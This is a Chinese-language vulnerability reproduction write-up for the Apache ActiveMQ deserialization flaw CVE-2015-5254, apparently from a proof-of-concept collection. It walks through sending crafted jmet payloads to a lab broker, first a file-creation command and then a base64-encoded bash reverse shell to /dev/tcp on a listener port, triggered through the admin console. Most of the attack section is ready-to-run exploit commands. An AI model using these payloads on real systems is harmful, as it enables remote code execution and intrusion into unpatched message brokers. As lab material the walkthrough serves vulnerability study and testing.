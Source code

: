 # Apache ActiveMQ 反序列化漏洞 CVE-2015-5254

# Apache ActiveMQ 反序列化漏洞 (CVE-2015-5254)

## 漏洞描述

Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务，集群，Spring Framework等。Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java消息服务（JMS）ObjectMessage对象利用该漏洞执行任意代码。

## 漏洞影响

```
Apache ActiveMQ 5.13.0之前5.x版本
```

## 环境配置

### 安装jdk

查看java版本，如果是java 11需要切换到java 8

```
java -version
```

安装java 8，默认安装路径/usr/lib/jvm/java-8-openjdk-amd64

```
sudo apt install openjdk-8-jdk
```

配置环境变量，添加jdk安装路径

```
sudo vim ~/.bashrc

# 在最后一行添加
export JAVA_HOME=/usr/lib/jvm/java-8-openjdk-amd64
```

### 切换jdk版本

采用update-alternatives命令进行版本切换

 /usr/bin/java和/usr/lib/jvm/java-8-openjdk-amd64/bin/java两个路径一定要和自己的路径吻合

```
sudo update-alternatives --install /usr/bin/java java /usr/lib/jvm/java-8-openjdk-amd64/bin/java 1070
```

切换jdk

```
sudo update-alternatives --config java
```

![image-20220221132209838](/images/202202211347913.png)

再次查看java版本，切换成功

![image-20220221132246597](/images/202202211347914.png)

### 漏洞复现

下载 jmet [下载链接](https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar)

```shell
wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
mkdir external
```

对目标发送一个生成**/tmp/vuln**的 payload

```plain
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/awesome_poc" -Yp ROME 192.168.174.128 61616
```

![image-20220221133654012](/images/202202211347915.png)

访问 http://192.168.174.128:8161/admin/browse.jsp?JMSDestination=event 可以看到多了一条消息队列，ID为kali-38087-1645421794512-1:1:1:1:1

![image-20220221133733242](/images/202202211347916.png)

点击这个信息触发文件创建，成功执行命令 touch /tmp/awesome_poc

![image-20220221133952983](/images/202202211347917.png)

![2](/images/202202211347918.png)也可以创建一个反弹shell的payload

```shell
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1  (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}

# 发送payload
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.174.128 61616
```

![image-20220221134243490](/images/202202211347919.png)

查看消息队列，ID为kali-38435-1645422155171-1:1:1:1:1

![image-20220221134313545](/images/202202211347920.png)

监听9999端口，点击消息队列会触发命令执行，反弹Shell

![image-20220221134508900](/images/202202211347921.png)


